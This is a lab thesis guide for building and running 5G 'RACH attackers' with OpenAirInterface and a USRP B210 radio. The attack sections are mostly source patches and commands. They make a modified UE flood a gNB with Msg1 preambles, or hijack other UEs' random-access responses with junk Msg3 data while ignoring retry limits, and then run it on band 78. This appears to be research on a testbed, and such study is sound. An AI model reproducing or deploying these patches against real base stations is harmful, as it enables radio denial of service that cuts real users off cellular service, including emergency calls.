








# Thesis (Installation and User Guide for RACH Attacker)

###### tags: `2025`


**Goal:**
- [x] [Make Installation and User Guide for Msg1 Attacker]()
- [x] [Make Installation and User Guide for Msg3 Attacker]()
- [x] [Make Installation and User Guide for gNB with Msg1 and Msg3 visibility]()
- [x] [Make Installation and User Guide for gNB with Ignore Msg1 Feature]()
- [x] [Make Installation and User Guide for gNB with Periodic Sleep Feature]()

**References:**
- [OAI 5G NR SA tutorial with OAI nrUE](https://gitlab.eurecom.fr/oai/openairinterface5g/-/blob/develop/doc/NR_SA_Tutorial_OAI_nrUE.md?ref_type=heads)
- [OAI UE + USRP B210 Installation Guide](https://hackmd.io/@zhongxin/BJSPWUy90)
- [Attacker guide for Wilfrid paper](https://ntust-bmwlab.notion.site/Attacker-guide-for-Wilfrid-paper-12d1009831438064b6afcf322b4fa252)
- [MTK UE Guide](https://github.com/bmw-ece-ntust/o-ran-docs/blob/2022-MS-Summer-OAI/UE/MTK%20UE/MTK%20UE%20Guide.md)

**Table of Contents:**
- [Thesis (Installation and User Guide for RACH Attacker)](#thesis--installation-and-user-guide-for-rach-attacker-)
          + [tags: `2025`](#tags---2025-)
  * [0. Summary](#0-summary)
  * [1. Installation and User Guide for Msg1 Attacker](#1-installation-and-user-guide-for-msg1-attacker)
    + [1.1. Download and Install Regular OAI nrUE](#11-download-and-install-regular-oai-nrue)
    + [1.2. Modify Regular OAI nrUE into Msg1 Attacker](#12-modify-regular-oai-nrue-into-msg1-attacker)
    + [1.3. Running Msg1 Attacker](#13-running-msg1-attacker)
      - [1.3.1. Running Msg1 Attacker Regularly](#131-running-msg1-attacker-regularly)
      - [1.3.2. Controlling Msg1 Attacker Transmit Power](#132-controlling-msg1-attacker-transmit-power)
      - [1.3.3. Controlling Msg1 Attacker `prach-ConfigurationIndex`](#133-controlling-msg1-attacker-prach-configurationindex)
      - [1.3.4. Controlling Msg1 Attacker preamble ID](#134-controlling-msg1-attacker-preamble-id)
  * [2. Installation and User Guide for Msg3 Attacker](#2-installation-and-user-guide-for-msg3-attacker)
    + [2.1. Download and Install Regular OAI nrUE](#21-download-and-install-regular-oai-nrue)
    + [2.2. Modify Regular OAI nrUE into Msg3 Attacker](#22-modify-regular-oai-nrue-into-msg3-attacker)
    + [2.3. Running Msg3 Attacker](#23-running-msg3-attacker)
  * [3. Installation and User Guide for OAI gNB with Msg1 and Msg3 Visibility](#3-installation-and-user-guide-for-oai-gnb-with-msg1-and-msg3-visibility)
    + [3.1. Download and Install Regular OAI gNB](#31-download-and-install-regular-oai-gnb)
    + [3.2. Modify Regular OAI gNB into gNB with Msg1 and Msg3 Visibility](#32-modify-regular-oai-gnb-into-gnb-with-msg1-and-msg3-visibility)
    + [3.3. Running gNB with Msg1 and Msg3 Visibility](#33-running-gnb-with-msg1-and-msg3-visibility)
      - [3.3.1. Running gNB with Msg1 and Msg3 Visibility Regularly](#331-running-gnb-with-msg1-and-msg3-visibility-regularly)
      - [3.3.2. Controlling UE Msg1 & Msg3 Transmit Power](#332-controlling-ue-msg1---msg3-transmit-power)
      - [3.3.3. Controlling gNB's Transmit Power](#333-controlling-gnbs-transmit-power)
      - [3.3.4. Controlling gNB's noise threshold update factor](#334-controlling-gnbs-noise-threshold-update-factor)
      - [3.3.5. Controlling gNB's Msg1 power detection threshold](#335-controlling-gnbs-msg1-power-detection-threshold)

<small><i><a href='http://ecotrust-canada.github.io/markdown-toc/'>Table of contents generated with markdown-toc</a></i></small>

## 0. Summary

1. More earl

## 1. Installation and User Guide for Msg1 Attacker

### 1.1. Download and Install Regular OAI nrUE

<b>1. Install USRP B210 dependency</b>

```shell=
sudo apt install -y autoconf automake build-essential ccache cmake cpufrequtils doxygen ethtool g++ git inetutils-tools libboost-all-dev libncurses5 libncurses5-dev libusb-1.0-0 libusb-1.0-0-dev libusb-dev python3-dev python3-mako python3-numpy python3-requests python3-scipy python3-setuptools python3-ruamel.yaml
```

<b>2. Build UHD from source</b>

```shell=
git clone https://github.com/EttusResearch/uhd.git
cd uhd
git checkout v4.6.0.0
cd host
mkdir build
cd build
cmake ../
make -j $(nproc)
make test # This step is optional
sudo make install
sudo ldconfig
```

<b>3. Download FPGA Image</b>

```shell=
sudo uhd_images_downloader
```

<b>4. Install Gnuradio</b>

```shell=
sudo apt install gnuradio
```

<b>5. Check if the system can recognise B210 through USB</b>

```shell=
lsusb
```


<b>6. Test the device with uhd to see if it works</b>

```shell=
sudo uhd_find_devices
```


<b>7. Download OAI nrUE from gitlab</b>

```shell=
git clone https://gitlab.eurecom.fr/oai/openairinterface5g.git
cd openairinterface5g
git checkout 2025.w11
```


<b>8. Dependency</b>

```shell=
cd cmake_targets
./build_oai -I
```


<b>9. Install nrscope</b>

```shell=
sudo apt install -y libforms-dev libforms-bin
```


<b>10. Optional Reinstall yaml-cpp</b>

```shell=
# this is optional
# sometimes, the yaml-cpp library is broken, so will result in error of step 11
sudo apt update
sudo apt install --reinstall libyaml-cpp-dev
```


<b>11. Build oai nrUE with USRP mode</b>

```shell=
./build_oai -w USRP --ninja --nrUE --gNB --build-lib "nrscope" -C
```


### 1.2. Modify Regular OAI nrUE into Msg1 Attacker

<b>1. First, you need to know that OAI nrUE tracks it RA state using enumeration defined in `mac_defs.h`</b>

```c=262
typedef enum {
  nrRA_UE_IDLE,
  nrRA_GENERATE_PREAMBLE,
  nrRA_WAIT_RAR,
  nrRA_WAIT_MSGB,
  nrRA_WAIT_CONTENTION_RESOLUTION,
  nrRA_SUCCEEDED,
  nrRA_FAILED,
} nrRA_UE_state_t;
```

<b>2. So, we are going to stop UE from going to waiting Msg2 state, which is `nrRA_WAIT_RAR`. We do this by commenting line 2189 in `nr_ue_prach_scheduler()` function in `nr_ue_scheduler.c`</b>

```c=2187
const int n_slots_frame = mac->frame_structure.numb_slots_frame;
      if (ra->ra_type == RA_4_STEP) {
        //ra->ra_state = nrRA_WAIT_RAR; ///// WILFRID - COMMENT THIS LINE/////
        // we start to monitor DCI for RAR in the first valid occasion after transmitting RACH
        // the response window timer should be started at that time
        // but for processing reasons it is better to start it here and to add the slot difference
        // that also takes into account the rx to tx slot offset
        int next_slot = (slotP + 1) % n_slots_frame;
        int next_frame = (frameP + (next_slot < slotP)) % MAX_FRAME_NUMBER;
        int add_slots = 1;
```

<b>3. We also need to stop timer setup and start for waiting Msg2 in line 2205 and 2208 in `nr_ue_prach_scheduler()` function in `nr_ue_scheduler.c`</b>

```c=2203
  add_slots++;
        }
        //nr_timer_setup(&ra->response_window_timer, ///// WILFRID - COMMENT THIS FUNCTION /////
        //               ra->response_window_setup_time + add_slots + GET_DURATION_RX_TO_TX(&mac->ntn_ta),
        //               1);
        //nr_timer_start(&ra->response_window_timer); ///// WILFRID - COMMENT THIS FUNCTION /////
      } else if (ra->ra_type == RA_2_STEP) {
        NR_MsgA_PUSCH_Resource_r16_t *msgA_PUSCH_Resource =
```

<b>4. This is a flowchart to summarize what we did</b>



<b>5. Now, just recompile attacker following [1.1](#11-download-and-install-regular-oai-nrue)</b>


### 1.3. Running Msg1 Attacker

#### 1.3.1. Running Msg1 Attacker Regularly

<b>0. Run the gNB you want to attack</b>

<b>1. To run the attacker, just use the regular command to run OAI nrUE</b>

```shell
cd cmake_target/ran_build/build
sudo ./nr-uesoftmodem -r 106 --numerology 1 --band 78 -C 3619200000 --ssb 516 -E --ue-fo-compensation --sa
```


<b>2. If you got some error, try dropping the `--sa` flag. This flag is not used for newer OAI nrUE version</b>

```shell
sudo ./nr-uesoftmodem -r 106 --numerology 1 --band 78 -C 3619200000 --ssb 516 -E --ue-fo-compensation
```

<b>3. Attacker is running properly if you can see attacker's scheduler scheduling Msg1 in radio frames</b>


#### 1.3.2. Controlling Msg1 Attacker Transmit Power

<b>1. To run the attacker with reduced power, add `--ue-txgain 10` parameter (adjust value to adjust power)</b>
```shell
cd cmake_target/ran_build/build
sudo ./nr-uesoftmodem -r 106 --numerology 1 --band 78 -C 3619200000 --ssb 516 -E --ue-fo-compensation --sa --ue-txgain 10
```


#### 1.3.3. Controlling Msg1 Attacker `prach-ConfigurationIndex`

```mermaid
---
displayMode: compact
---
gantt
    dateFormat mm
    axisFormat %M
    section gNB
    RO 1 : active, rao1, 00, 5m
    RO 2 : active, rao2, 10, 5m
    RO 3 : active, rao3, 20, 5m
    RO 4 : active, rao4, 30, 5m
    RO 5 : active, rao5, 40, 5m
    RO 6 : active, rao5, 50, 5m
    prach_ConfigurationIndex=160 : done, pci160, 00, 10m
    section Attacker
    ‎Msg1 : crit, att1, 00, 5m
    ‎Msg1 : crit, att3, 20, 5m
    ‎Msg1 : crit, att5, 40, 5m
    prach_ConfigurationIndex=149 : done, pci149, 00, 20m
```

<b>0. You might want to make the attacker run on different `prach-ConfigurationIndex` than the value configed in the gNB to vary the attacker period. Here is an illustration of modifying attacker period to every 2 frames</b>



<b>1. First, you need to check the `prach-ConfigurationIndex` that will be used by the gNB. My gNB's config file is usually `gnb.sa.band78.fr1.106PRB.usrpb210.conf`</b>

```shell=69
        initialULBWPsubcarrierSpacing                               = 1;
      #rach-ConfigCommon
        #rach-ConfigGeneric
          prach_ConfigurationIndex                                  = 160; ///// WILFRID- PAY CLOSE ATTENTION TO THIS VALUE /////
#prach_msg1_FDM
#0 = one, 1=two, 2=four, 3=eight
          prach_msg1_FDM                                            = 0;
          prach_msg1_FrequencyStart                                 = 0;
          zeroCorrelationZoneConfig                                 = 13;
          preambleReceivedTargetPower                               = -96;
```

<b>2. Check 3GPP TS 38.211 Table 6.3.3.2-3 to find the suitable `prach-ConfigurationIndex` that suits your attacker period. Here, I highlighted some values I like to use</b>


<b>3. Next, hardcode this value into your attacker by hardcoding your choosen value into `config_common_ue_sa()` function line 228 in `config_ue.c`</b>

```c=224
  if (rach_ConfigCommon->msg1_SubcarrierSpacing)
    cfg->prach_config.prach_sub_c_spacing = *rach_ConfigCommon->msg1_SubcarrierSpacing;
  else {
    // If absent, the UE applies the SCS as derived from the prach-ConfigurationIndex (for 839)
    //int config_index = rach_ConfigCommon->rach_ConfigGeneric.prach_ConfigurationIndex; ///// WILFRID - THIS IS BEFORE /////
    int config_index = 149; ///// WILFRID - THIS IS AFTER /////
    int format = get_format0(config_index, frame_type, mac->frequency_range);
    cfg->prach_config.prach_sub_c_spacing = get_delta_f_RA_long(format);
  }
```

<b>4. Eh? Why this value is used again in line 452? Let's just hardcode this value into your attacker again by hardcoding your choosen value into `config_common_ue()` function line 452 in `config_ue.c`</b>

```c=448
if (rach_ConfigCommon->msg1_SubcarrierSpacing)
      cfg->prach_config.prach_sub_c_spacing = *rach_ConfigCommon->msg1_SubcarrierSpacing;
    else {
      // If absent, the UE applies the SCS as derived from the prach-ConfigurationIndex (for 839)
      //int config_index = rach_ConfigCommon->rach_ConfigGeneric.prach_ConfigurationIndex; ///// WILFRID - THIS IS BEFORE /////
      int config_index = 149; ///// WILFRID - THIS IS AFTER /////
      int format = get_format0(config_index, frame_type, mac->frequency_range);
      cfg->prach_config.prach_sub_c_spacing = format == 3 ? 5 : 4;
    }
```

<b>5. This is a flowchart to summarize what we did</b>



<b>6. Now, just recompile attacker following [1.1](#11-download-and-install-regular-oai-nrue)</b>

#### 1.3.4. Controlling Msg1 Attacker preamble ID

```mermaid
---
displayMode: compact
---
gantt
    dateFormat mm
    axisFormat %M
    section gNB
    RO 1 : active, rao1, 00, 5m
    RO 2 : active, rao2, 10, 5m
    RO 3 : active, rao3, 20, 5m
    RO 4 : active, rao4, 30, 5m
    RO 5 : active, rao5, 40, 5m
    RO 6 : active, rao5, 50, 5m
    section Attacker
    ‎PID=1 : crit, att1, 00, 5m
    ‎PID=1 : crit, att3, 20, 5m
    ‎PID=1 : crit, att5, 40, 5m
    section UE
    ‎PID=9 : ue1, 30, 5m
```

<b>0. You might want to make the attacker to use a specific preamble ID for its Msg1 (e.g. so you can contrast UE's Msg1 and attacker's Msg1). Here is an illustration of attacker using the same preamble ID for its Msg1</b>



<b>1. First, you need hardcode your attacker's preamble index by hardcoding your choosen value into `config_preamble_index()` function line 346 in `NR_MAC_UE/nr_ra_procedures.c`</b>

```c=340
  int rand_preamb = (rand_r(&seed) % ra->ssb_ro_config.preambles_per_ssb);
  if (ra->ssb_ro_config.ssb_per_ro < 1)
    ra->ra_PreambleIndex = groupOffset + rand_preamb;
  else {
    int ssb_pr_idx = mac->ssb_list.nb_ssb_per_index[mac->mib_ssb] % (int)ra->ssb_ro_config.ssb_per_ro;
    ra->ra_PreambleIndex = groupOffset + (ssb_pr_idx * ra->ssb_ro_config.preambles_per_ssb) + rand_preamb;
  }
  ra->ra_PreambleIndex = 1; ///// WILFRID - HARDCODE YOUR CHOOSEN PREAMBLE INDEX VALUE HERE /////
  AssertFatal(ra->ra_PreambleIndex < nb_of_preambles,
              "Error! Selected preamble %d which exceeds number of prambles available %d\n",
              ra->ra_PreambleIndex,
              nb_of_preambles);
```

<b>2. This is a flowchart to summarize what we did</b>




<b>3. Now, just recompile attacker following [1.1](#11-download-and-install-regular-oai-nrue)</b>


## 2. Installation and User Guide for Msg3 Attacker

### 2.1. Download and Install Regular OAI nrUE

<b>1. Install USRP B210 dependency</b>

```shell=
sudo apt install -y autoconf automake build-essential ccache cmake cpufrequtils doxygen ethtool g++ git inetutils-tools libboost-all-dev libncurses5 libncurses5-dev libusb-1.0-0 libusb-1.0-0-dev libusb-dev python3-dev python3-mako python3-numpy python3-requests python3-scipy python3-setuptools python3-ruamel.yaml
```

<b>2. Build UHD from source</b>

```shell=
git clone https://github.com/EttusResearch/uhd.git
cd uhd
git checkout v4.6.0.0
cd host
mkdir build
cd build
cmake ../
make -j $(nproc)
make test # This step is optional
sudo make install
sudo ldconfig
```

<b>3. Download FPGA Image</b>

```shell=
sudo uhd_images_downloader
```

<b>4. Install Gnuradio</b>

```shell=
sudo apt install gnuradio
```

<b>5. Check if the system can recognise B210 through USB</b>

```shell=
lsusb
```


<b>6. Test the device with uhd to see if it works</b>

```shell=
sudo uhd_find_devices
```


<b>7. Download OAI nrUE from gitlab</b>

```shell=
git clone https://gitlab.eurecom.fr/oai/openairinterface5g.git
cd openairinterface5g
git checkout 2025.w11
```


<b>8. Dependency</b>

```shell=
cd cmake_targets
./build_oai -I
```


<b>9. Install nrscope</b>

```shell=
sudo apt install -y libforms-dev libforms-bin
```


<b>10. Optional Reinstall yaml-cpp</b>

```shell=
# this is optional
# sometimes, the yaml-cpp library is broken, so will result in error of step 11
sudo apt update
sudo apt install --reinstall libyaml-cpp-dev
```


<b>11. Build oai nrUE with USRP mode</b>

```shell=
./build_oai -w USRP --ninja --nrUE --gNB --build-lib "nrscope" -C
```


### 2.2. Modify Regular OAI nrUE into Msg3 Attacker

<b>1. First, you need to know that OAI nrUE tracks the prach procedure in OAI nrUE is done in `nr_ue_prach_procedures()` function. So, we need to comment out `generate_nr_prach()` in line 1192 in `phy_procedures_nr_ue.c` to prevent this procedure from generating Msg1</b>

```c=1191
      start_meas_nr_ue_phy(ue, PRACH_GEN_STATS);
      //prach_power = generate_nr_prach(ue, gNB_id, frame_tx, nr_slot_tx); ///// WILFRID - COMMENT THIS LINE /////
      stop_meas_nr_ue_phy(ue, PRACH_GEN_STATS);
      if (cpumeas(CPUMEAS_GETSTATE)) {
        LOG_D(PHY,
              "[SFN %d.%d] PRACH Proc %5.2f\n",
              proc->frame_tx,
              proc->nr_slot_tx,
              ue->phy_cpu_stats.cpu_time_stats[PRACH_GEN_STATS].p_time / (cpuf * 1000.0));
      }
```

<b>1.5. This is a figure to describe what we did so far</b>



<b>2. Next, OAI nrUE will only accept the RAR or Msg2 with RAPID equals to its Msg1. We need to modify this so it will accept any RAR. Modify line 4050 of `nr_ue_process_rar()` function in `nr_ue_procedures.c`</b>

```c=4050
    //if (rarh->RAPID == preamble_index) { ///// WILFRID - THIS IS BEFORE /////
    if (rarh->RAPID != 99) { ///// WILFRID - THIS IS AFTER /////
      // The MAC entity may stop ra-ResponseWindow (and hence monitoring for Random Access Response(s)) after
      // successful reception of a Random Access Response containing Random Access Preamble identifiers
      // that matches the transmitted PREAMBLE_INDEX.
      nr_timer_stop(&ra->response_window_timer);
```

<b>2.5. This is a figure to describe what we did so far</b>



<b>3. Now, we will need to prevent attacker from receiving Msg4. To do that, comment out line 1424 and 1428 in `nr_ue_ul_scheduler()` function in `nr_ue_scheduler.c`</b>

```c=1420
if (ra->ra_state == nrRA_WAIT_CONTENTION_RESOLUTION && !ra->cfra) {
        LOG_I(NR_MAC, "[RAPROC][%d.%d] RA-Msg3 retransmitted\n", frame_tx, slot_tx);
        // 38.321 restart the ra-ContentionResolutionTimer at each HARQ retransmission in the first symbol after the end of the Msg3
        // transmission
        //nr_Msg3_transmitted(mac, cc_id, frame_tx, slot_tx, gNB_index); ///// WILFRID - COMMENT THIS LINE /////
      }
      if (ra->ra_state == nrRA_WAIT_RAR && !ra->cfra) {
        LOG_A(NR_MAC, "[RAPROC][%d.%d] RA-Msg3 transmitted\n", frame_tx, slot_tx);
        //nr_Msg3_transmitted(mac, cc_id, frame_tx, slot_tx, gNB_index); ///// WILFRID - COMMENT THIS LINE /////
      }
```

<b>3.5. This is a figure to describe what we did so far</b>



<b>4. Next, we will want to randomize the content of Msg3 so that gNB will get meaningless Msg3. To do this, we will edit the ULSCH encoding function because Msg3 is an ULSCH message. We will add a block of code to line 85 in `nr_ulsch_encoding()` function in `nr_ulsch_coding.c`</b>

```c=82
uint8_t Qm = pusch_pdu->qam_mod_order;
    // target_code_rate is in 0.1 units
    float Coderate = (float)pusch_pdu->target_code_rate / 10240.0f;

    ///// WILFRID - ADD THIS BLOCK OF CODE - WILFRID /////
    int size_wilfrid = pusch_pdu->pusch_data.tb_size;
    for (int i = 0; i < size_wilfrid; i++) {
            //harq_process->payload_AB[i] = 0x00; ///// WILFRID - Set all bytes to 0 /////
            harq_process->payload_AB[i] = 0xFF;  ///// WILFRID - Set all bytes to 1 /////
            //harq_process->payload_AB[i] = rand() % 256; ///// WILFRID - Set to random data /////
    }
    ///// WILFRID - ADD THIS BLOCK OF CODE - WILFRID /////

    LOG_D(NR_PHY, "ulsch coding nb_rb %d, Nl = %d\n", nb_rb, pusch_pdu->nrOfLayers);
    LOG_D(NR_PHY, "ulsch coding A %d G %d mod_order %d Coderate %f\n", A, G[pusch_id], Qm, Coderate);
    LOG_D(NR_PHY, "harq_pid %d, pusch_data.new_data_indicator %d\n", harq_pid, pusch_pdu->pusch_data.new_data_indicator);
```

<b>4.5. This is a figure to describe what we did so far</b>



<b>5. OAI nrUE also have mechanism to stop doing RA if Msg4 does not received successfully for a certain number of times. We want to always block Msg3, so we need to ignore number of Msg4 failed to received. To do that, comment line 1219 of `nr_rar_not_successful()` function in `nr_ra_procedures.c`</b>

```c=1214
void nr_rar_not_successful(NR_UE_MAC_INST_t *mac)
{
  LOG_W(MAC, "[UE %d] RAR reception failed\n", mac->ue_id);
  RA_config_t *ra = &mac->ra;
  NR_PRACH_RESOURCES_t *prach_resources = &ra->prach_resources;
  //prach_resources->preamble_tx_counter++; ///// WILFRID - COMMENT OUT THIS LINE /////
  bool ra_completed = false;
  if (prach_resources->preamble_tx_counter == ra->preambleTransMax + 1) {
```

<b>5.5. This is a figure to describe what we did so far</b>



<b>6. Now, just recompile attacker following [2.1](#21-download-and-install-regular-oai-nrue)</b>

### 2.3. Running Msg3 Attacker

<b>0. Run the gNB you want to attack</b>

<b>1. To run the attacker, just use the regular command to run OAI nrUE</b>

```shell
cd cmake_target/ran_build/build
sudo ./nr-uesoftmodem -r 106 --numerology 1 --band 78 -C 3619200000 --ssb 516 -E --ue-fo-compensation --sa
```


<b>2. If you got some error, try dropping the `--sa` flag. This flag is not used for newer OAI nrUE version</b>

```shell
sudo ./nr-uesoftmodem -r 106 --numerology 1 --band 78 -C 3619200000 --ssb 516 -E --ue-fo-compensation
```

<b>3. Run UE by switching off airplane mode</b>

<b>4. Attacker is running properly if it found RAR with the UE's RAR RAPID, which can be any value, and transmit Msg3</b>


## 3. Installation and User Guide for OAI gNB with Msg1 and Msg3 Visibility

### 3.1. Download and Install Regular OAI gNB

<b>1. Install USRP B210 dependency</b>

```shell=
sudo apt install -y autoconf automake build-essential ccache cmake cpufrequtils doxygen ethtool g++ git inetutils-tools libboost-all-dev libncurses5 libncurses5-dev libusb-1.0-0 libusb-1.0-0-dev libusb-dev python3-dev python3-mako python3-numpy python3-requests python3-scipy python3-setuptools python3-ruamel.yaml
```

<b>2. Build UHD from source</b>

```shell=
git clone https://github.com/EttusResearch/uhd.git
cd uhd
git checkout v4.6.0.0
cd host
mkdir build
cd build
cmake ../
make -j $(nproc)
make test # This step is optional
sudo make install
sudo ldconfig
```

<b>3. Download FPGA Image</b>

```shell=
sudo uhd_images_downloader
```

<b>4. Install Gnuradio</b>

```shell=
sudo apt install gnuradio
```

<b>5. Check if the system can recognise B210 through USB</b>

```shell=
lsusb
```


<b>6. Test the device with uhd to see if it works</b>

```shell=
sudo uhd_find_devices
```


<b>7. Download OAI nrUE from gitlab</b>

```shell=
git clone https://gitlab.eurecom.fr/oai/openairinterface5g.git
cd openairinterface5g
git checkout 2025.w11
```


<b>8. Dependency</b>

```shell=
cd cmake_targets
./build_oai -I
```


<b>9. Install nrscope</b>

```shell=
sudo apt install -y libforms-dev libforms-bin
```


<b>10. Optional Reinstall yaml-cpp</b>

```shell=
# this is optional
# sometimes, the yaml-cpp library is broken, so will result in error of step 11
sudo apt update
sudo apt install --reinstall libyaml-cpp-dev
```


<b>11. Build OAI gNB with USRP mode</b>

```shell=
./build_oai -w USRP --ninja --nrUE --gNB --build-lib "nrscope" -C
```


### 3.2. Modify Regular OAI gNB into gNB with Msg1 and Msg3 Visibility

<b>1. First, you need to know that OAI gNB only print RACH noise threshold every frame = 0. If you want to know the background noise per frame, we should edit line 187 in `L1_nr_prach_procedures()` in `nr_prach_procedures.c`</b>

```c=186
      gNB->measurements.prach_I0 = ((gNB->measurements.prach_I0*900)>>10) + ((max_preamble_energy[0]*124)>>10); 
      //if (frame==0) LOG_I(PHY,"prach_I0 = %d.%d dB\n",gNB->measurements.prach_I0/10,gNB->measurements.prach_I0%10); ////// WILFRID - THIS IS BEFORE /////
      LOG_I(PHY,"prach_I0 = %d.%d dB\n",gNB->measurements.prach_I0/10,gNB->measurements.prach_I0%10); ////// WILFRID - THIS IS AFTER /////
      if (gNB->prach_energy_counter < 100) gNB->prach_energy_counter++;
```

